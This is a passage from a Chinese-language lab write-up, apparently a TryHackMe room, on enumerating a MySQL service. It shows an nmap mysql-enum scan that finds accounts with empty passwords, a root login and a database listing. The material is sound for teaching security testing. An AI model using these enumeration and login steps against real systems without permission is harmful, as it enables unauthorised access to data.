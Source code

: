 
## 近一步学习

这里有一些东西，如果你感兴趣，在完成这个房间后阅读可能会有用：

- https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/4/html/security_guide/ch-exploits
- https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/
### 手动枚举

####  nmap脚本扫描mysql

```bash  mysql-enum
nmap --script=mysql-enum 10.10.58.132

...
Host is up (0.00067s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
3306/tcp open  mysql
| mysql-enum: 
|   Valid usernames: 
|     root:<empty> - Valid credentials
|     guest:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|     web:<empty> - Valid credentials
|     test:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     user:<empty> - Valid credentials
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
MAC Address: 02:62:79:23:FC:51 (Unknown)
...

```

#### 登陆mysql

```bash file:login-mysql
sudo apt install default-mysql-client
...

mysql -h 10.10.58.132 -u root -p
```

#### 查询数据库

```sql file:databases
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
4 rows in set (0.00 sec)
```
